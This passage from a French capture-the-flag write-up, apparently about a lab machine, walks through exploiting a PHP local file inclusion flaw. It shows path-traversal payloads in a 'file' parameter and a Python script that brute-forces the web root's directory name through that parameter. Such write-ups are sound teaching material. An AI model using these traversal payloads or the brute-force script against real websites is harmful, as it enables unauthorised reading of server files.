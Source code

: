 Les liens présents sur le site passent les fichiers *research.php* et *about.php* en argument.  

Un petit coup de buster permet de confirmer que ces fichiers sont dans le même dossier, à la racine :  

```plain
http://192.168.1.10/about.php - HTTP 200 (1252 bytes, gzip)
http://192.168.1.10/index.php - HTTP 200 (1312 bytes, gzip)
http://192.168.1.10/research.php - HTTP 200 (3287 bytes, gzip)
```

En jouant un peu avec cette vulnérabilité d'inclusion PHP (vraisemblablement d'après l'erreur 500) on se rend compte que l'on peut inclure un path relatif:  

```plain
192.168.1.10/index.php?file=layout/styles/layout.css
```

on peut aussi remonter dans l'arborescence :  

```plain
192.168.1.10/index.php?file=images/../layout/styles/layout.css
```

on peut aussi faire référence au dossier local  

```plain
http://192.168.1.10/index.php?file=./layout/styles/layout.css
```

pourtant en passant des paths [de fichiers bien connus](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-InterestingFiles.txt) on ne remonte rien...  

Ma première idée a été de brute-forcer le nom du répertoire courant qui pourrait me donner d'autres idées par la suite :  

```plain
import sys

import requests

url = "http://192.168.1.10/?file=../{}/research.php"

sess = requests.session()
with open(sys.argv[1], errors="ignore") as fd:
    for i, line in enumerate(fd):
        word = line.strip()
        response = sess.get(url.format(word))
        if "An Overview Of The Human Genome Project" in response.text:
            print(">>", word)
            break
        if i % 5000 == 0:
            print(word)
```

Je fini ainsi par trouver que le répertoire courant se nomme *public\_html*, ainsi on retrouve bien le contenu de la page about avec l'URL suivante :  

```plain
http://192.168.1.10/?file=../public_html/about.php
```

